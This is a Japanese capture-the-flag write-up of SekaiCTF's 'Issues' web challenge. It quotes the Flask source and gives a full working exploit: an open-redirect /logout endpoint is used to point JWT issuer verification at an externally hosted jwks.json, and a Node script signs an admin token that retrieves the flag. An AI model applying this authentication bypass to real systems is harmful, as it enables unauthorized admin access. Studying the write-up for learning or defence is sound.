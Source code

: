# Issues:Web:356pts
Can you become an admin and get the flag?  

[http://issues-3m7gwj1d.ctf.sekai.team](http://issues-3m7gwj1d.ctf.sekai.team/)  

[issues.zip](issues.zip)  

# Solution
URLとソースが渡される。  
アクセスするとなぞのステータスコードが返ってくるサイトのようだ。  
![site.png](site/site.png)  
ソースを見ると、app.pyに以下のようにフロントが実装されている。  
```python
~~~
@app.route("/", defaults={"path": ""})
@app.route("/<path:path>")
def home(path):
    return "OK", 200
    return render_template("template.html", status=200, message="OK")


@app.route("/login", methods=['GET', 'POST'])
def login():
    return "Not Implemented", 501
    return render_template("template.html", status=501, message="Not Implemented"), 501


@app.route("/.well-known/jwks.json")
def jwks():
    return jwks_contents, 200, {'Content-Type': 'application/json'}


@app.route("/logout")
def logout():
    session.clear()
    redirect_uri = request.args.get('redirect', url_for('home'))
    return redirect(redirect_uri)
~~~
```
`/logout`にオープンリダイレクトがみられるが、SSTIなどは難しい。  
次にapi.pyを見ると、以下の通りであった。  
```python
~~~
api = Blueprint("api", __name__, url_prefix="/api")

valid_issuer_domain = os.getenv("HOST")
valid_algo = "RS256"


def get_public_key_url(token):
    is_valid_issuer = lambda issuer: urlparse(issuer).netloc == valid_issuer_domain

    header = jwt.get_unverified_header(token)
    if "issuer" not in header:
        raise Exception("issuer not found in JWT header")
    token_issuer = header["issuer"]

    if not is_valid_issuer(token_issuer):
        raise Exception(
            "Invalid issuer netloc: {issuer}. Should be: {valid_issuer}".format(
                issuer=urlparse(token_issuer).netloc, valid_issuer=valid_issuer_domain
            )
        )

    pubkey_url = "{host}/.well-known/jwks.json".format(host=token_issuer)
    return pubkey_url

def get_public_key(url):
    resp = requests.get(url)
    resp = resp.json()
    key = resp["keys"][0]["x5c"][0]
    return key


def has_valid_alg(token):
    header = jwt.get_unverified_header(token)
    algo = header["alg"]
    return algo == valid_algo


def authorize_request(token):
    pubkey_url = get_public_key_url(token)
    if has_valid_alg(token) is False:
        raise Exception("Invalid algorithm. Only {valid_algo} allowed.".format(valid_algo=valid_algo))

    pubkey = get_public_key(pubkey_url)
    pubkey = "-----BEGIN PUBLIC KEY-----\n{pubkey}\n-----END PUBLIC KEY-----".format(pubkey=pubkey).encode()
    decoded_token = jwt.decode(token, pubkey, algorithms=["RS256"])
    if "user" not in decoded_token:
        raise Exception("user claim missing")
    if decoded_token["user"] == "admin":
        return True

    return False


@api.before_request
def authorize():
    if "Authorization" not in request.headers:
        raise Exception("No Authorization header found")

    authz_header = request.headers["Authorization"].split(" ")
    if len(authz_header) < 2:
        raise Exception("Bearer token not found")

    token = authz_header[1]
    if not authorize_request(token):
        return "Authorization failed"


f = open("flag.txt")
secret_flag = f.read()
f.close()


@api.route("/flag")
def flag():
    return secret_flag
```
Bearerトークンで認証を行い、userがadminであった場合にフラグが表示されるようだ。  
よくある攻撃手法として外部にjwks.jsonをホスティングするものがあるが、`is_valid_issuer`でブロックされている。  
まずは`valid_issuer_domain`を確認する(署名は検証されていないので適当でよい)。  
```bash
$ echo -n '{"alg": "RS256", "issuer": "http://example.com"}' | base64
eyJhbGciOiAiUlMyNTYiLCAiaXNzdWVyIjogImh0dHA6Ly9leGFtcGxlLmNvbSJ9
$ curl http://issues-3m7gwj1d.ctf.sekai.team/api/flag -H "Authorization: Bearer eyJhbGciOiAiUlMyNTYiLCAiaXNzdWVyIjogImh0dHA6Ly9leGFtcGxlLmNvbSJ9.."
<!DOCTYPE html>
<html>
<head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <title>Issues</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="container box-border flex flex-col items-center justify-center h-screen px-4 mx-auto text-center text-white bg-zinc-800">
        <h1 class="inline-block text-left w-fit text-red-300">
        <span class="my-4 text-xl font-semibold">HTTP 500</span><br>
        <span class="my-4 text-5xl font-bold">Invalid issuer netloc: example.com. Should be: localhost:8080</span>
    </h1>
</body>
</html>
```
`localhost:8080`とわかった。  
ここで、先ほどのオープンリダイレクトを活用すると任意のサイトの`/.well-known/jwks.json`を検証に使用させることができることに気づく。  
[mkjwk](https://mkjwk.org/)を用いてjwkを作成する。  
![jwk_gen.png](images/jwk_gen.png)  
作成した公開鍵を以下の通りjwks.jsonに形成し、[Beeceptor](https://beeceptor.com/)などを用い外部にホスティングする。  
今回は`https://satoki-ctf.free.beeceptor.com/.well-known/jwks.json`にホスティングした。  
```json
{
    "keys": [
        {
            "alg": "RS256",
            "x5c": [
                "MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAuJsMX4ixNisLwVQDYoNb\n5vjGvrCYY6WwjerYBMDaunVw2KyauROKHh94Pp2pYzEhoaWcBhg4j1wF3X5rW1B2\npMdbvljjXzVTWDeOjHH3CHBeQR72svIUkzw6XLt/4ZHaczjw7fQrtCnjIRKo7EQI\nv9yV5AL3N2nNAZvCq0Py62kD6eI/E188YskqZzbVgAMg6y8DAOQykSHfVlPrrq1K\nKgyj1XxJHrWBdM/+MEqZAXyU0ZrsgfkvJFq0E41UBhu52/MTyBFi8wfV26FY/1C9\n5enG85CqmYTQqcHASmEqiXYKMuj91Jpvkz/KWzvM0nu9b+InTF28uR0kBN15K0zC\ncwIDAQAB"
            ]
        }
    ]
}
```
次に作成した秘密鍵を用いて、userをadminに書き換えたトークンを署名する。  
オープンリダイレクトを用いて、ホスティング先の公開鍵を`issuer`に設定する。  
これらを以下のsato.jsで行う。  
```js
const fs = require("fs")
const jwt = require("jsonwebtoken")

const user = "admin";
const privatekey = fs.readFileSync("private_key.pem", "utf8");
const token = jwt.sign(
    {
        user,
    },
    privatekey,
    {
        header: {
            alg: "RS256",
            issuer: "http://localhost:8080/logout?redirect=https://satoki-ctf.free.beeceptor.com",
        }
    },
);

console.log(token);
```
実行し、出力されたトークンをcurlで`/flag`に投げてやる。  
```bash
$ node sato.js
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCIsImlzc3VlciI6Imh0dHA6Ly9sb2NhbGhvc3Q6ODA4MC9sb2dvdXQ_cmVkaXJlY3Q9aHR0cHM6Ly9zYXRva2ktY3RmLmZyZWUuYmVlY2VwdG9yLmNvbSJ9.eyJ1c2VyIjoiYWRtaW4iLCJpYXQiOjE2NjQ3MDQ2Mjh9.FFecXastZESyPCRnDDA8ZM_JWUzVRq_XTD1gIBgUdIg7NzjKzE0O2aZrcMkQ47O71-xgWuJP7OT34cr4Rqd4sd80EkbRCcKpFAOdA_lf8oDoK-OgByuI60DNJTlFqMTPXghAECI12oxqLSagd1pjdOTpXuPfskatq33KiRCaysFoJw4kO8XEA4fh1HqazKtrs6kQFCa4zlX2Bv09ThmJ1zmqAEm_gkFGaOEQkAsyz9Wb9iD3OWm5neltb_CzUUTVsO4zuHRog4i5GHLUKsoYDSKjDxuhuNuHBYZMV3gKu1XSq1IoJgssyL_HW9mQ9MxLETwSeE1bNsMcGxTYXvt3-Q
$ curl http://issues-3m7gwj1d.ctf.sekai.team/api/flag -H "Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCIsImlzc3VlciI6Imh0dHA6Ly9sb2NhbGhvc3Q6ODA4MC9sb2dvdXQ_cmVkaXJlY3Q9aHR0cHM6Ly9zYXRva2ktY3RmLmZyZWUuYmVlY2VwdG9yLmNvbSJ9.eyJ1c2VyIjoiYWRtaW4iLCJpYXQiOjE2NjQ3MDQ2Mjh9.FFecXastZESyPCRnDDA8ZM_JWUzVRq_XTD1gIBgUdIg7NzjKzE0O2aZrcMkQ47O71-xgWuJP7OT34cr4Rqd4sd80EkbRCcKpFAOdA_lf8oDoK-OgByuI60DNJTlFqMTPXghAECI12oxqLSagd1pjdOTpXuPfskatq33KiRCaysFoJw4kO8XEA4fh1HqazKtrs6kQFCa4zlX2Bv09ThmJ1zmqAEm_gkFGaOEQkAsyz9Wb9iD3OWm5neltb_CzUUTVsO4zuHRog4i5GHLUKsoYDSKjDxuhuNuHBYZMV3gKu1XSq1IoJgssyL_HW9mQ9MxLETwSeE1bNsMcGxTYXvt3-Q"
<!DOCTYPE html>
<html>
<head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <title>Issues</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="container box-border flex flex-col items-center justify-center h-screen px-4 mx-auto text-center text-white bg-zinc-800">
        <h1 class="inline-block text-left w-fit">
        <span class="my-4 text-xl font-semibold">HTTP 200</span><br>
        <span class="my-4 text-5xl font-bold">SEKAI{v4l1d4t3_y0ur_i55u3r_plz}</span>
    </h1>
</body>
</html>
```
flagが得られた。  

## SEKAI{v4l1d4t3_y0ur_i55u3r_plz}